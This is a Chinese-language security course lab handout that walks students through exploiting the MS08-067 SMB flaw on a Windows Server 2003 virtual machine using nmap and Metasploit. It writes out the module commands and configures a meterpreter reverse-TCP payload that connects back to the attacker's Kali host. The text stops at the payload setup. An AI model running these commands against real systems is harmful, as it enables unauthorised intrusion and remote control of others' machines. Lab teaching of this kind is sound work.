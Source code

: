 # 实验xx利用MS08_067漏洞渗透win2k3sp0

## 实验目的

1.掌握渗透测试框架 metasploit的基本用法
2.理解ms08_067漏洞利用的工作原理

## 注意：
kali2019与kali2中的exploit和payload不同，不能再利用kali201902成功渗透我windows 2k3 metasploitable。可以尝试使用ms17-010，但未验证实效。

## 实验内容

1.使用nmap扫描虚拟局域网内的活跃主机IP地址。
2.使用kali 2 虚拟机中的metasploit-framework对 win2k3 metasploitable虚拟机进行渗透。
3.根据实验步骤完成实验报告

## 实验步骤

1.打开虚拟机kali 201902。

2.打开虚拟机 win2k3 metasploitable。

![winserver2k3](images/lab_exploitwin2k3/winserver2k3.png)


3.确保这两台虚拟机都处于vmnet 8 虚拟网络中，即子网地址10.10.10.0/24 。


4.使用命令```ifconfig```查看kali的IP地址。

![kali下ifconfig](images/lab_exploitwin2k3/kali下ifconfig.png)

可知其IP地址为10.10.10.133。

5.在kali中，打开terminal，运行下列命令，使用 nmap 对局域网内活跃主机进行扫描。
``` nmap -sN 10.10.10.0/24```

![nmapscan](images/lab_exploitwin2k3/nmapscan.png)

可知win2k3虚拟机的IP地址为10.10.10.130。

6.打开kali中的metasploit-framework.

![metasploitable01](images/lab_exploitwin2k3/metasploitable01.png)

7.运行下列命令，加载渗透代码。
```
# 加载渗透代码
use exploit/windows/smb/ms08_067_netapi
# 显示选项
show options
```

![metasploitable02](images/lab_exploitwin2k3/metasploitable02.png)

8.设置渗透选项。
```
# 设置RHOST
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.130
# 设置target
msf5 exploit(windows/smb/ms08_067_netapi) > set target 3
# 显示选项
msf5 exploit(windows/smb/ms08_067_netapi) > show options
```

![metasploitable03](images/lab_exploitwin2k3/metasploitable03.png)


9.执行下列命令，加载攻击载荷。
```
# 设置windows/meterpreter/reverse_tcp为攻击载荷
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp

# 设置载荷参数lhost
msf5 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.10.133

# 查看参数
msf5 exploit(windows/smb/ms08_067_netapi) > show options

```

![metasploitable04](images/lab_exploitwin2k3/metasploitable04.png)

